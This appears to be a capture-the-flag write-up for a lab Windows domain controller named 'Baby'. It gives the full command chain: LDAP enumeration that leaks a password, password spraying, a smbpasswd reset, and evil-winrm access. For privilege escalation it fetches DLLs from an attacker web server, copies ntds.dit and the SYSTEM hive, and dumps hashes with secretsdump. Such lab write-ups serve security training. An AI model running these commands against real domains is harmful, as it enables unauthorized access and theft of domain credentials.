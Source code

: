 # KEY TAKE AWAYS

* **LDAP search**
*  **smbpasswd**
* **SeBackupPrivileges Privilege Escalation**

# NMAP

```
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-05-02 11:09:49Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
|_ssl-date: 2024-05-02T11:10:38+00:00; +1m24s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-05-02T11:09:58+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
5985/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        syn-ack .NET Message Framing
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# LDAP Search

Turns out that smb and the http service have no information to contribute towards the enumeration

```
ldapsearch -h $IP -x -b "" -s base \* +
```
 gives

```
NetBIOS computer name: BABYDC
NetBIOS domain name: BABY
DNS domain: baby.vl
FQDN: BabyDC.baby.vl
Derived membership: domain member
Derived domain: BABY 
```

```
ldapsearch -x -H ldap://$IP -s base namingcontexts
```

gives

```
namingcontexts: DC=baby,DC=vl
namingcontexts: CN=Configuration,DC=baby,DC=vl
namingcontexts: CN=Schema,CN=Configuration,DC=baby,DC=vl
namingcontexts: DC=DomainDnsZones,DC=baby,DC=vl
namingcontexts: DC=ForestDnsZones,DC=baby,DC=vl
```

we can now dump the usernames

```
ldapsearch -x -b "dc=baby,dc=vl" -H ldap://$IP '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
```
dumping everything available on that LDAP server results in leaking a preset password

```
ldapsearch -x -b "dc=baby,dc=vl" -H ldap://$IP
```
[Reference](https://github.com/nirajkharel/AD-Pentesting-Notes)

# User Own

Using Crackmapexec to passwordspray against the known users results in getting the user own

```
crackmapexec smb -u users.txt -p ‘’  $IP
```

but since the preset password is not changed we have to change it via smbpasswd

```
smbpasswd -r $IP -U <compromised-user>
```

userown

```
evil-winrm -u <compromised-user>  -p 'P@$$W0Rd'  -i $IP
```

# Privilege Escalation

```
whoami /priv 
```
This reveals that we have SeBackupPrivileges

As mentioned in this [Link](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-sebackupprivilege/)

we can git clone the necessary dll's from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master)

```
# If powershell
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll

# If winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege

Copy-FileSeBackupPrivilege .\root.txt C:\Users\<compromised-user>\Desktop\root.txt  -Overwrite
Copy-FileSeBackupPrivilege C:\Users\Administrator\root.txt C:\Users\Public\flag.txt -Overwrite
```

To get Administrator Shell

```
Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite

reg save HKLM\SYSTEM c:\tmp\system

download ntds.dit
download system

impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

Now use the cracked hash via evil-winrm to get the administrator shell
